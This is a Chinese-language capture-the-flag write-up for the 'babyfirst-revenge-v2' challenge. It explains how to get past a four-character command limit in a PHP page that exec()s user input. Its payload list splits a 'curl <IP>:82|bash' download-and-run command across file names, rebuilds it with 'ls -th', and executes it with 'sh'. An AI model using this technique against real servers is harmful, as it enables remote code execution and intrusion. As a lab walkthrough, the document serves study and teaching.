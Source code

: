 










# babyfirst-revenge-v2

先来普及一下这道题需要用到的小知识

（１）`*` 相当于`$(dir *)`,所以说如果文件名如果是命令的话就会返回执行的结果,之后的作为参数传入.

​          

　　　`passwd` 里的内容是`hello world`。

（２）dir指令和ls指令的功能相同，都是以**字典序将所在目录下的文件名输出**；

（３）rev指令可以将某一文件内容以倒序输出。



然后看一下这道题，代码如下

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

因为这里将`cmd`的长度限制到４个字符。所以第一题的`ls -t>a`那个做法就不可行了。

所以这里使用另外一个方法写入`ls -t>a`,payload如下：

```php
	payload = [
				'>dir',        #这里要用dir，而不是ls，因为ls在sl ht- g>四个文件名中不能排在第一个
				'>sl',
				'>ht-',       #使用h参数，是为了使得按照字典序输出的结果是我们想要的
				'>g\>',
				'*>v',      #v:g> ht- sl
         #拼在一起之后是dir g> ht -sl，这并不是一条正确的语句，但是会执行dir，并将结果输出到v文件中
				'>rev',
				'*v>x',        #rev v,then v:ls -th >g

				'>ash',
	            '>b\\',
	            '>\|\\',
	            '>82\\',
	            '>1:\\',
	            '>7.\\',
	            '>24\\',
	            '>8.\\',
	            '>16\\',
	            '>2.\\',
	            '>19\\',   #这里所使用的ip也有一定讲究，需要构成不重复的多个文件名
	            '>\ \\',
	            '>rl\\',
	            '>cu\\',
	            'sh x',   #execute ls -th >g
	            'sh g'
```